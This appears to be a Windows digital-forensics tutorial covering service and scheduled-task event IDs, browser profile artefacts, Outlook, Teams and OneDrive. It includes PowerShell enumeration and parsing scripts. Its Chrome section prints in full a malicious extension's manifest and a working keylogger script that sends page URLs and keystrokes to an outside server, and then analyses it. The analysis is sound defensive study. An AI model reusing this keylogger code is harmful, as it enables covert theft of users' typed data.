










# Windows applications - Digital Forensics

## Scheduled task and services

Event ID -> `4698` -> scheduled task created.
Event ID -> `4702` -> scheduled task updated.

You can use `wevutil.exe` (Command-line tool), `eventvwr.msc` (event viewer GUI app),
or PowerShell's `Get-WinEvent` or `Get-EventLog`.

For events generated by services.

Event ID -> `7045` -> A new service was installed (system channel).
Event ID -> `4697` -> A service was installed in system (security channel).

```ps


 # System Channel = Event ID 7045
PS C:\Users\Administrator> Get-WinEvent -FilterHashTable @{LogName='System';ID='7045'} | fl

# Security Channel = Event ID 4697
PS C:\Users\Administrator> Get-WinEvent -FilterHashTable @{LogName='Security';ID='4697'} | fl
```

---

## List all running services set to run automatically

||these are powershell oneliners... "oneliners"... I know||

```ps

Get-Service | Where-Object {$_.Status -eq "Running" -and $_.StartType -eq "Automatic"}

```

---

## add the binary these services execute

```ps
$services = Get-Service | Where-Object {$_.Status -eq "Running" -and $_.StartType -eq "Automatic"}

foreach ($service in $services) {
    $serviceName = $service.Name
    $serviceDisplayName = $service.DisplayName
    $serviceStatus = $service.Status
    $serviceWMI = (Get-WmiObject Win32_Service | Where-Object { $_.Name -eq $serviceName })
    $servicePath = $serviceWMI.PathName
    $serviceUser = $serviceWMI.StartName

    Write-Host "Service Name: $serviceName"
    Write-Host "Display Name: $serviceDisplayName"
    Write-Host "Service Status: $serviceStatus"
    Write-Host "Executable Path: $servicePath"
    Write-Host "User Context: $serviceUser"
    Write-Host ""
}
```

---

## List the stopped services that run automatically on boot

```ps

Import-Module C:\Tools\Get-RegWriteTime.ps1;
$services = Get-Service | Where-Object {$_.Status -eq "Stopped" -and $_.StartType -eq "Automatic"}

foreach ($service in $services) {
    $serviceName = $service.Name
    $serviceWMI = (Get-WmiObject Win32_Service | Where-Object { $_.Name -eq $serviceName })
    $serviceDisplayName = $service.DisplayName
    $serviceStatus = $service.Status
    $servicePath = $serviceWMI.PathName
    $serviceUser = $serviceWMI.StartName
    $serviceLastWriteTime = Get-Item HKLM:\SYSTEM\CurrentControlSet\Services\$serviceName | Get-RegWriteTime | Select LastWriteTime

    Write-Host "Service Name: $serviceName"
    Write-Host "Display Name: $serviceDisplayName"
    Write-Host "Service Status: $serviceStatus"
    Write-Host "Executable Path: $servicePath"
    Write-Host "User Context: $serviceUser"
    Write-Host "Last Write Time: $serviceLastWriteTime"
    Write-Host ""
}
```

---

## Browse user browser's data (Firefox in this case) - profiles' directories

```ps

ls C:\Users\ | foreach {ls "C:\Users\$_\AppData\Roaming\Mozilla\FireFox\Profiles" 2>$null
```

Use DB Browser for user's browser's activity files.
Example:



As you can observe, there're some SQL files we can explore with DB browser for SQLite.


Once analysing the data, you can convert the times
(since the timestamps are Epoch Unix Timestamp)
with web tools such as

```url
https://unixtimestamp.com
```

OR

```url
https://epochconverter.com
```

---

## Browser user browser's data (chrome in this case) - profile's directories

Now, let's see the artefact for Google Chrome browsing data.

Default location is -> `\AppData\Local\Google\Chrome\User Data`.
The `Default`directory contains the default chrome user profile.

```ps

PS C:\Users\Administrator> ls C:\Users\ | foreach {ls "C:\Users\$_\AppData\Local\Google\Chrome\User Data\Default" 2>$null | findstr Directory}
```

And you may get an output like this:



You can start analysing the contents of the chrome metadata directory.
Here's a list of artefacts worth checking for Google Chrome:



Let's say I want to go in-depth of what the user `mike.myers` has for browser's extensions.

`cd` -> `C:\Users\mike.myers\AppData\Local\Google\Chrome\User Data\Default\Extensions\`

You'll see two folders with unique extension identifiers (extension IDs).



I couldn't find anything on the first chrome folder extension ID observed in there,
I googled around and the second one observed, is a legitimate extension, which is
related to the Google Wallet Extension.
This second one, I found out, it is not an extension anymore, however,
it is built on the chrome browser.

Source:

```url
https://www.jamieweb.net/info/chrome-extension-ids/

https://www.timeatlas.com/find-browser-extensions/
```

I `cd` to that extension ID folder, then the got the contents
of the `.json file`:



```json
{
  "background": {
    "service_worker": "background.js"
  },
  "content_scripts": [
    {
      "js": ["script.js"],
      "matches": ["*://*/*"]
    }
  ],
  "description": "Collect and report keystrokes.",
  "icons": {
    "128": "icons/icon128.png",
    "16": "icons/icon16.png",
    "48": "icons/icon48.png"
  },
  "key": "MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEArOMn3ZolWeFjT5mwTETWQASiAtsaeRh4JgkGCMoKwug9HMiSEVIY7oIE1ikWoXhx2K2jo1drwRrhbxw1nSRP49nWD88gD/gnTr/GLNQt3Yc1YbR4w+s5iR3dwKvQf93wyllAW1Suf4n/R8mpFPRlonfQuyJLjvxtoxemQpdIdy+WenlTy67KqTlNdYJyT7BS8zA16uxNh6woJgWzUJJS2YonQgT5gOqVhvtj8DDz3vKgvqILDc5pwLopTRSVCYGp1kNxtSp7L49xpJfqes3ksBzII5XBBFv0pidkHyTJtq0LvxVyz2V5mI19CCgXAOq2fRCokQb/PN7L8MgwfYK4qQIDAQAB",
  "manifest_version": 3,
  "name": "Keystroke Harvester",
  "version": "1.0"
}
```

You can see some suspicious behaviour, and the obvious suspicious name of the extension.

So, you can see the `background` which defines the service workers
(scripts) running in the background.
And `content_scripts` which are files that are injected into the sites visited.
This does mean the running scripts can interact with the contents of the site
the user visits, and execute additional functionalities.

In the `C:\Users\mike.myers\AppData\Local\Google\Chrome\User Data\Default\Extensions\nchfdofnmealimhgfkncdfkionopnanf\1.0_0`
There are the two `.js` files, cat the two and gather some Intel.
This pretty much require some code review type shit...

The `background.js`:

```js
chrome.runtime.onMessage.addListener(function (request, sender, sendResponse) {
  sendResponse(request);
});
```

Seems like a regular `.addListener()` function, which to be honest, is deprecated.
A parenthesis here -> It should be replaced with `addEventListener()` method, to add event
listeners to DOM elements.

Now, let's see what `script.js` has:

```js
var keys = "";
var current = document.URL;

var xhr = new XMLHttpRequest();
xhr.open("POST", "https://kamehasuitens.info/track", true);
xhr.setRequestHeader("Content-Type", "application/json");
const json = {
  logged: current,
};
xhr.send(JSON.stringify(json));

document.onkeydown = function (e) {
  var get = window.event ? event : e;
  var key = get.keyCode ? get.keyCode : get.charCode;
  key = String.fromCharCode(key);
  keys += key;
};

window.setInterval(function () {
  if (keys != "") {
    var xhr_key = new XMLHttpRequest();
    xhr_key.open("POST", "https://kamehasuitens.info/track", true);
    xhr_key.setRequestHeader("Content-Type", "application/json");
    const json_key = {
      logged: keys,
    };
    xhr_key.send(JSON.stringify(json_key));
    keys = "";
  }
}, 5000);
```

Well, so I'll break down what this code does.
It is designed to track, and send keystrokes from the user's browser
to the server(url) observed in the code.

The `var keys = "";` (empty string) this accumulates keystrokes.
`current` Stores the current URL of the document.

The `var xhr = new XMLHttpRequest()` part, is designed to
send the current URL to the server at `https://kamehasuitens.info/track`,
using `POST` requests with `JSON` content type.

The event listener to the `document` object, captures keystrokes.
When a key is pressed, it retrieves the key-code, converts it to a character,
and appends it to the `keys` string.

The last block, which is the `windows.setInterval()` function,
sets an interval to execute a function every 5 seconds.
If `keys` is not empty, it creates a new `XMLHttpRequest` object to send
the accumulated keystrokes to the server (URL before mentioned), using `POST`
requests with `JSON` content type.
After sending, it clears the `key` string.

So, in summary, this scripts sends the current URL of the page to the server,
when it loads, and then continuously sends the user's keystrokes to the server every 5 secs.
This can be used for tracking user's activity, and keystrokes on a webpage.

---

## Microsoft Edge metadata artefact

Location -> `\AppData\Local\Microsoft\Edge\User Data\Default`.

Same procedure through `PowerShell` can be done with this artefact too.
Meaning...

```ps
PS C:\Users\Administrator> ls C:\Users\ | foreach {ls "C:\Users\$_\AppData\Local\Microsoft\Edge\User Data\Default" 2>$null | findstr Directory}

Directory: C:\Users\Administrator\AppData\Local\Microsoft\Edge\User Data\Default
Directory: C:\Users\jane.adams\AppData\Local\Microsoft\Edge\User Data\Default
Directory: C:\Users\mike.myers\AppData\Local\Microsoft\Edge\User Data\Default
Directory: C:\Users\suzy.chen\AppData\Local\Microsoft\Edge\User Data\Default

```

TO NOTE - Microsoft Edge is built with Chromium, most of the browsing metadata files
are similar to Google's Chrome structure.

We can also use a tool such as `ChromeCacheView`,
and observe **XYZ** user's Microsoft Edge's cached files.
By default it will open the Google's chrome cached files.
So you'll have to click on `File` -> `Select Cache Folder`,
then you'll have to input the `PATH` you want to analyse.
For example:

`C:\Users\suzy.chen\AppData\Local\Microsoft\Edge\User Data\Default\Cache\Cache_Data`

This method/tool can be useful for determining the websites the user has visited,
by relying on the cached files for each site visited.
Although, the information does not provide the exact pages accessed by the user,
there can still be helpful information such as:

- Last accessed (time-stamp when the cached data is accessed).
- URL (of the cached file).
- Website (URL of the site accessed by the user, which loads the cached file).
- Content Type (type of the file cached by the browser -> `text/css`, `text/javascript`).

You can double-click an entry, and render the details in a more
visually comfortable/organised view.

Note that the cached metadata can only be considered
as a piece of supporting information during investigations.
Combining all the information from the other artefacts,
such as exact URLs accessed or cookies, is still essential.

A tool like hindsight can be helpful -> `https://github.com/obsidianforensics/hindsight`.
What this tool does, is parse metadata files without opening them individually.
On windows, through `PowerShell`, start from the path where the tool is located.
Example:

```ps
PS C:\Users\Administrator> C:\ForensicsTools\hindsight_gui.exe
```

It will open a `localhost:8080` instance, and navigate to that with
any browser.
Read the `gitHub` repo, so you have an idea how to use it.

Put the path you want to analyse and run it.
Remember Edge is based on chromium, so you're okay with input type on `Chrome`.

Once you run, you decide whether to save it in any desired format,
or even view it on the browser with `view SQLite DB in browser` option.
Nevertheless, it's better to just save it as `SQLite DB`
to then open it on `DB viewer for SQLite`.
And you can execute `SQL queries` in there too.

Like for example -> Once loaded the saved SQL file
go to `Execute SQL` -> Type:

```SQL
SELECT type,origin,key,value FROM 'storage' LIMIT 0,30
```

And click on the blue play button, to execute the SQL query.

---

## Microsoft Outlook

You can use the same PS method as before with a few tweaks of course,
since this artefact is located in -> `\AppData\Local\Microsoft\Outlook\`.

```ps
ls C:\Users\ | foreach {ls "C:\Users\$_\AppData\Local\Microsoft\Outlook\" 2>$null | findstr Directory}
```

To read the offline email files (.ost) tools like XstReader can be useful.

```url
https://github.com/Dijji/XstReader
```

The GUI (on windows) is very easy to navigate, and learn.

Analyse the emails in the inbox.


If a file has attachments, can be observed in the column A.
You can save the attachments, in the email to further analyse it.

Once you open an email, in the lower right corner, you'll see
`Content` and `Properties`.
It is checked `Content` by default, click on `Properties`,
so you see the email's headers metadata.

---

## Microsoft Teams Artefact

Since most companies that use windows, will eventually use Microsoft Teams (ew!),
then this artefact can be important to analyse too.

Artefact location -> `\AppData\Roaming\Microsoft\Teams` directory.
You can repeat the same `PowerShell` one-liner as the before-executed ones.



Let's focus on the `IndexedDB` folder.
There're two folders in there
`http_teams.microsoft.com_().indexeddb.blob` and,
`http_teams.microsoft.com_().indexeddb.leveldb`.
In this instance let's focus on the second one, and parse it with:

```url
https://github.com/lxndrblz/forensicsim/
```

This tool is an `Autopsy` plugin, however,
in this point, I will use the standalone parser.
Example of usage (found in the GitHub repo):

```ps
.\dist\ms_teams_parser.exe -f ".\forensicsim-data\john_doe_old_teams\IndexedDB\https_teams.microsoft.com_0.indexeddb.leveldb" -o "john_doe.json"
```

So, in this case, it'll be something like:

```ps
PS C:\Users\Administrator> C:\ForensicsTools\ms_teams_parser.exe -f C:\Users\mike.myers\AppData\Roaming\Microsoft\Teams\IndexedDB\https_teams.microsoft.com_0.indexeddb.leveldb\ -o output.json

```

You can use `notepad.exe` to further analyse the `JSON` output file.

It may be a heavy data loaded file at first glance.
So let's use `PowerShell for this`.

```ps
 $teams_metadata = cat .\output.json | ConvertFrom-Json
$users = @{}

# Initialise user hashtable for correlation
foreach ($data in $teams_metadata) {
   if ($data.record_type -eq "contact") {
     $users.add($data.mri, $data.userPrincipalName)
   }
}
$users | fl
```

Now you will see the list of `MRI` (Unique identifier of the contact),
and `userPrincipalName` (principal name of the contact - typically email
of the associated user) key-value pairs.

Let's combine the messages with identical conversation IDs to view
the messages in each conversation thread.
Let's add now:

```ps
$teams_metadata = cat .\output.json | ConvertFrom-Json
$messages = @{}
# Combine all conversations/messages with the same ID
foreach ($data in $teams_metadata) {
  if ($data.record_type -eq "message") {
    if ($messages.keys -notcontains $data.conversationId) {
      $messages[$data.conversationId] = [System.Collections.ArrayList]@()
    }
    $messages[$data.conversationId].add($data) > $null
  }
}
$messages | fl
```

Lastly you can parse each message entry, sort it based on the creation date,
and render only the essential details.
The whole "one liner" would be like this:

```ps
$teams_metadata = cat .\output.json | ConvertFrom-Json
$users = @{}
$messages = @{}

# Initialise user hashtable for correlation
foreach ($data in $teams_metadata) {
   if ($data.record_type -eq "contact") {
     $users.add($data.mri, $data.userPrincipalName)
   }
}

# Combine all conversations/messages with the same ID
foreach ($data in $teams_metadata) {
  if ($data.record_type -eq "message") {
    if ($messages.keys -notcontains $data.conversationId) {
      $messages[$data.conversationId] = [System.Collections.ArrayList]@()
    }
    $messages[$data.conversationId].add($data) > $null
  }
}

# Print the parsed output focused on the significant values
foreach ($conversationID in $messages.keys) {
  Write-Host "Conversation ID: $conversationID`n"
  $conversation = $messages[$conversationID] | Sort createdTime
  foreach ($message in $conversation) {
    $createdTime = $message.createdTime
    $fromme = $message.isFromMe
    $content = $message.content
    $sender = $users[$message.creator]

    Write-Host "Created Time: $createdTime"
    Write-Host "Sent by: $sender"
    Write-Host "Direction: $direction"
    Write-Host "Message content: $content"
    Write-Host "`n"
  }

  Write-host "----------------`n"
}
```

If you don't want to input all this in a terminal or copy paste it,
then make one simple script, you just execute.

I made decided to make this a `.ps1` script instead, and 'scriptable' one,
you can input the `output.json` file in the terminal.

### Usage

```ps
.\jsonparser.ps1 -jsonFilePath "C:\path\to\your\output.json"
```

Now you have a cleaner output.

Let's add this block to the script:

```ps
# Parse file attachment details
    if ($attachments -eq "True") {
      foreach ($attachment in $message.properties.files) {
        $filename = $attachment.fileName
        $location = $attachment.fileInfo.fileUrl
        $type = $attachment.fileType

        Write-Host "Attachment name: $filename"
        Write-Host "Attachment location: $location"
        Write-Host "Attachment type: $type"
      }
    }
    Write-Host "`n"
  }
```

What does it do? Well, it collects the file attachment information.

So the whole script would look like:

```ps

param (
    [string]$jsonFilePath
)

# Read and parse the JSON file
$teams_metadata = Get-Content -Path $jsonFilePath | ConvertFrom-Json

# Initialize hashtables for users and messages
$users = @{}
$messages = @{}

# Initialize user hashtable for correlation
foreach ($data in $teams_metadata) {
    if ($data.record_type -eq "contact") {
        $users[$data.mri] = $data.userPrincipalName
    }
}

# Combine all conversations/messages with the same ID
foreach ($data in $teams_metadata) {
    if ($data.record_type -eq "message") {
        if (-not $messages.ContainsKey($data.conversationId)) {
            $messages[$data.conversationId] = [System.Collections.ArrayList]@()
        }
        $messages[$data.conversationId].Add($data) > $null
    }
}

# Print the parsed output focused on the significant values
foreach ($conversationID in $messages.Keys) {
    Write-Host "Conversation ID: $conversationID`n"
    $conversation = $messages[$conversationID] | Sort-Object createdTime
    foreach ($message in $conversation) {
        $createdTime = $message.createdTime
        $fromme = $message.isFromMe
        $content = $message.content
        $sender = $users[$message.creator]
        $direction = if ($message.isFromMe) { 'Outbound' } else { 'Inbound' }
        $attachments = if ($message.properties.files) { 'True' } else {'False'}

        Write-Host "Created Time: $createdTime"
        Write-Host "Sent by: $sender"
        Write-Host "Direction: $direction"
        Write-Host "Message content: $content"
        Write-Host "Has attachment: $attachments"

        # Parse file attachment details
        if ($attachments -eq "True") {
            foreach ($attachment in $message.properties.files) {
                $filename = $attachment.fileName
                $location = $attachment.fileInfo.fileUrl
                $type = $attachment.fileType

                Write-Host "Attachment name: $filename"
                Write-Host "Attachment location: $location"
                Write-Host "Attachment type: $type"
            }
        }
        Write-Host "`n"
    }

    Write-Host "----------------`n"
}

```

If you still prefer the option of putting it on the terminal,
it would look like this:

```ps
$teams_metadata = cat .\output.json | ConvertFrom-Json
$users = @{}
$messages = @{}

# Initialise user hashtable for correlation
foreach ($data in $teams_metadata) {
   if ($data.record_type -eq "contact") {
     $users.add($data.mri, $data.userPrincipalName)
   }
}

# Combine all conversations/messages with the same ID
foreach ($data in $teams_metadata) {
  if ($data.record_type -eq "message") {
    if ($messages.keys -notcontains $data.conversationId) {
      $messages[$data.conversationId] = [System.Collections.ArrayList]@()
    }
    $messages[$data.conversationId].add($data) > $null
  }
}

# Print the parsed output focused on the significant values
foreach ($conversationID in $messages.keys) {
  Write-Host "Conversation ID: $conversationID`n"
  $conversation = $messages[$conversationID] | Sort createdTime
  foreach ($message in $conversation) {
    $createdTime = $message.createdTime
    $fromme = $message.isFromMe
    $content = $message.content
    $sender = $users[$message.creator]
    $direction = if ($message.isFromMe) { 'Outbound' } else { 'Inbound' }
    $attachments = if ($message.properties.files) { 'True' } else {'False'}

    Write-Host "Created Time: $createdTime"
    Write-Host "Sent by: $sender"
    Write-Host "Direction: $direction"
    Write-Host "Message content: $content"
    Write-Host "Has attachment: $attachments"

    # Parse file attachment details
    if ($attachments -eq "True") {
      foreach ($attachment in $message.properties.files) {
        $filename = $attachment.fileName
        $location = $attachment.fileInfo.fileUrl
        $type = $attachment.fileType

        Write-Host "Attachment name: $filename"
        Write-Host "Attachment location: $location"
        Write-Host "Attachment type: $type"
      }
    }
    Write-Host "`n"
  }

  Write-host "----------------`n"
}
```

OR OR... Guess what?
Open the bloody `output.json` file with `notepad.exe`
then you `CTRL+F` -> "attachments", and you'll notice sussy wussy `.zip`
files or maybe `.pdf` files, which may contain sussy wussy `URLs`.

Let's say you find a malicious `system_update.zip`.
Go to the User's `Downloads` folder, it might be there.
Unzip it, analyse it with `PowerShell`, it might have an `base64` encoded URL.
Use cyberChef for that.

---

## Microsoft OneDrive Artefact

Located in `\AppData\Local\Microsoft\OneDrive\logs`.

This directory contains additionals directories, such as `Business*`,
and Personal, which differ only by the subscription of the account used.
Let's say this is an enterprise environment, so we would aim our focus towards
the `Business*` folder.

In this artefact, two important files contain significant information:

- `SyncEngine.odl` -> contains all operations performed, including the information
  of each file processed.
  The `odlgz` files are the compressed file of `SyncEngine.odl`.

- `SyncDiagnostics.log` -> log file that contains the diagnostic info related
  to the synchronisation process of `OneDrive`.
  It stores details about sync activities, such as download, and upload progress,
  bytes uploaded, or downloaded, and the number of files processed.

The `log` files, can be easily analysed with any text editor.
However, the `odl` files, can be analysed with tools like `OneDriveExplorer`.

`OneDriveExplorer` repo:

```url
https://github.com/Beercow/OneDriveExplorer
```

